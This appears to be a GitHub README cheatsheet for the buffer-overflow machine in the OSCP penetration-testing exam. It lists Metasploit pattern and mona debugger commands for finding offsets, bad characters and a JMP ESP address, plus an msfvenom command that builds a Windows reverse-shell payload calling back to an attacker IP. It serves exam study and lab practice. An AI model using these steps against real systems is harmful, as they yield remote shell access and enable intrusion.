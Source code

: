 
# OSCP-Buffer-Overflow-Cheatsheet
Everything you'll need for the OSCP Buffer Overflow machine
## Cheatsheet

**Pattern Create:** 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l length_of_pattern

Eg: /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
```

**Pattern Offset:** 
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l length_of_pattern -q EIP_value_here

Eg: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 39654138
```

**Mona generate hex characters:** 
```
!mona bytearray
```

**Default location of bytearray.bin:** 
```
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\bytearray.bin
```

**Mona compare:** 
```
!mona compare -f bytearray.bin -a esp
``` 
Make sure bytearray.bin has ben generated already.

**List modules with mona:** 
```
!mona modules
```

**Hex equivalent for JMP ESP:** 
```
\xff\xe4
```

**Find JMP ESP statement in identified module:** 
```
!mona find -s "\xff\xe4" -m module_name

Eg: !mona find -s "\xff\xe4" -m essfunc.dll!
```

**Generate shellcode:** 
```
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_IP LPORt=listener_port EXITFUNC=thread -f c -a x86 -b "bad_characters"

Eg: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.177.128 LPORt=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a\xb0"
```

**Convert address little endian in python:** 
```
struct.pack("<I", 0xaddress_here)

Eg: struct.pack("<I", 0x080414C3)!
```
Make sure the **struct** library is imported.

### Notes: 
* For python code, some programs may need a newline ("**\n**") character appended at the end in order to process input as intended.
* When identifying bad characters, consider not sending "**\x00**" as it could lead to false positives on other characters.

### Checklist:

1. Host address: 
2. Application port: 
3. Offset: 
4. Badchars: 
5. Vulnerable module:
6. JMP ESP address:
